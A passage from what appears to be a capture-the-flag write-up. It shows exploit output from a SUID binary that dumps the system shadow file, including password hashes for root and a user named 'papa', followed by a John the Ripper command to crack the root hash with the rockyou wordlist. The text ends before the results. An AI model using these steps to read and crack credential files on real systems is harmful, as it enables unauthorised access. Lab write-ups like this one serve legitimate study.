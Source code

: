```
[*] Switching to interactive mode
[*] Process '/opt/secret/root' stopped with exit code -11 (SIGSEGV) (pid 1122)
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
[*] Got EOF while reading in interactive
$
```

So, yeah, we did it again!!!


## crack the root password hash

We know the hash for the root password:
`$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.`

Now what?

First save that hash to a file called `pass.txt`

Then we can try to crack it using a wordlist:

```
john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt pass.txt
```

Here are the results:
